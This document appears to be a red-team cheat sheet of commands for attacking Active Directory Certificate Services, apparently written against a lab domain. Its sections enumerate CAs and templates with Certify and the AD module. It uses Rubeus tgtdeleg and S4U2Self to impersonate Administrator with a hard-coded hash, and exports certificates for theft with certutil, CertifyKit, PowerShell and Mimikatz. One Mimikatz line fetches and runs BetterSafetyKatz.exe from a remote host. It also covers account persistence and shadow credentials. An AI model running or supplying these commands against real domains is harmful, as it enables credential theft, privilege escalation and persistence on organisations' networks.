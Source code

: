 # Look for AD CS containers using the AD Module

```powershell
Get-ADObject -Filter * -SearchBase '<CA authorities>'
ls 'AD:\<CA authoririty>'
```

## Based on ObjectClass

```powershell
Get-ADObject -LDAPFilter '(objectclass=certificationAuthority)' -SearchBase 'corp name' | fl *
```

## Enumerate CA

```powershell
Certify.exe cas
```

## Find Templates

```powershell
Certify.exe find
```

## CertPotato Vulnerability

### Perform tgtdeleg Attack to get a TGT

```powershell
Rubeus.exe tgtdeleg /nowrap
```

### Perform S4U2Self Attack to gain CIFS admin access

```powershell
Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:cifs/cb-webapp1.certbulk.cb.corp /dc:cb-dc.certbulk.cb.corp /user:'cb-webapp1$' /rc4:B2FCBA1C3570AB9418994799B9BC985A /ptt
```

## ADCS enumeration using ADMODULE

```powershell
Import-Module C:\ADCS\Tools\ADModule\Microsoft.ActiveDirectory.Management.dll 
Import-Module C:\ADCS\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
Get-ADDomain | ft DNSRoot, ParentDomain, InfrastructureMaster 
```

### Enumerate the Certification Authorities Container

```powershell
Get-ADObject -Filter * -SearchBase 'certificate container name'
```

ls 'AD:\CA authority container' | fl

Get-ADObject -LDAPFilter '(objectclass=certificationAuthority)' -SearchBase 'CA name' | fl * 

Use rubues for authenticating using ptt

Rubeus.exe ptt /ticket:<ticket>

### Enumerating the CertStore using CertUtil 

 certutil -store My
 certutil -user -store My

### Enumerating the CertStore using CertifyKit 

 CertifyKit.exe list
 CertifyKit.exe list /storename:my /storelocation:localmachine

### Enumerating the CertStore using PowerShell 

 Get-ChildItem Cert:\CurrentUser\ -Recurse
 Get-ChildItem Cert:\LocalMachine\ -Recurse  
 Get-ChildItem Cert:\LocalMachine\My -Recurse

### Exporting Certificates using CertUtil (THEFT1) 
 certutil -p "Passw0rd!" -exportpfx <serial number of the cert> C:\Users\Public\cert.pfx 

 ### Exporting Certificates using CertifyKit (THEFT1) 
 C:\Users\Public\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:<thumbprintofcert> /outfile:C:\Users\Public\cert_certifykit.pfx

### Exporting Certificates using Mimikatz (THEFT1) 
 C:\Users\Public\Loader.exe -path http://<ipaddress>/BetterSafetyKatz.exe -args "crypto::capi" "privilege::debug" "crypto::certificates /systemstore:local_machine /store:my /export" "exit"
 crypto::capi
 privilege::debug
 crypto::certificates /systemstore:local_machine /store:my /export 

### Exporting Certificates using PowerShell (THEFT1) 
 Export-PfxCertificate -Cert Cert:\LocalMachine\My\93B4027A4CD6A67A175E796E5DF8B673ACD2D75D -FilePath C:\Users\Public\studentadmin_psh.pfx -Password $mypwd

### Certifcate Exfiltration

Sharpshare.exe - tool for domain share enumeration

### User account persistence (PERSIST1) 
  runas /netonly /user:certbulk\<accountname> "%LocalAppData%\Microsoft\WindowsApps\wt.exe"

  Certify.exe request /ca:cb-ca.cb.corp\CB-CA /template:User /user:<accountname>

### Shadow credentials

Whisker (https://github.com/eladshamir/Whisker) aids red teams to abuse Shadow Credentials using the msDS-KeyCredentialLink attribute in red team operations.